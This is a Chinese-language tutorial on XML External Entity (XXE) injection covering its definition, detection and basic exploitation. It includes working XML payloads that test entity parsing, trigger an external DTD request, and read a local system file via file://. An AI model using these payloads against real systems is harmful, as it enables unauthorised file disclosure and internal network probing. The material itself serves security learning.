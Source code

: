 ## 一、什么是XXE

XXE漏洞全称`XML External Entity Injection`即XML外部实体注入漏洞,XXE漏洞发生在应用程序解析XML输入时，没有禁止外部实体的加载，有了XML实体，关键字`SYSTEM`会令XML解析器从URI中读取内容，并允许它在XML文档中被替换。因此，攻击者可以通过实体将他自定义的值发送给应用程序，然后让应用程序去呈现。简单来说，攻击者强制XML解析器去访问攻击者指定的资源内容(可能是系统上本地文件亦或是远程系统上的文件)，导致可加载恶意外部文件，造成文件读取、命令执行、内网端口扫描、攻击内网网站等危害。xxe漏洞触发的点往往是可以上传xml文件的位置，没有对上传的xml文件进行过滤，导致可上传恶意xml文件。

## 二、如何判断XXE漏洞

最直接的方法就是通过修改HTTP请求方法，修改`Content-Type`头部字段等，查看返回包的响应，看看应用程序是否解析了发送的内容，一旦解析了，那么有可能XXE漏洞。

例如wsdl（web服务描述语言）,或者一些常见的采用xml的java服务配置文件（spring，struts2）。不过现实中存在的大多数XXE漏洞都是blind，即不可见的，必须采用带外通道进行返回信息的记录，这里简单来说就是攻击者必须具有一台具有公网ip的主机。

## 三、XXE漏洞的基本利用

通常攻击者会将payload注入XML文件中，一旦文件被执行，将会读取服务器上的本地文件，并对内网发起访问扫描内部网络端口。换而言之，XXE是一种从本地到达各种服务的方法。此外，在一定程度上这也可能帮助攻击者绕过防火墙规则过滤或身份验证检查。

### 1、检测XML是否会被解析

```
<?xml version="1.0"?>
<!DOCTYPE a [
<!ENTITY xxe "test">
]>
<user><username>&xxe;</username><password>123</password></user>
```

![image.png](http://secevery.oss-cn-beijing.aliyuncs.com/images/article/2021/8/2/1630576005731.png?x-oss-process=style/ImageWaterMark_V1.0)

如果页面输出了test，说明xml文件可以被解析

### 2、检测服务器是否支持DTD引用外部实体

```
<?xml version=”1.0” encoding=”UTF-8”?> 
<!DOCTYPE ANY [ 
<!ENTITY % name SYSTEM "http://localhost/index.html"> 
%name; 
]>
```

可通过查看自己服务器上的日志来判断，看目标服务器是否向你的服务器发了一条请求index.html的请求

### 3、通过外部实体（file协议）读取文件

XML内容被解析后,使用`file协议`,文件内容便通过`&test`被存放在了XXE元素中，造成了敏感信息的泄露。

```
<?xml version="1.0"?>
<!DOCTYPE XXE [
<!ENTITY test SYSTEM  "file:///c:/windows/win.ini">
]>
<user><username>&test;</username><password>123</password></user>
```

![image.png](http://secevery.oss-cn-beijing.aliyuncs.com/images/article/2021/8/2/1630572990423.png?x-oss-process=style/ImageWaterMark_V1.0)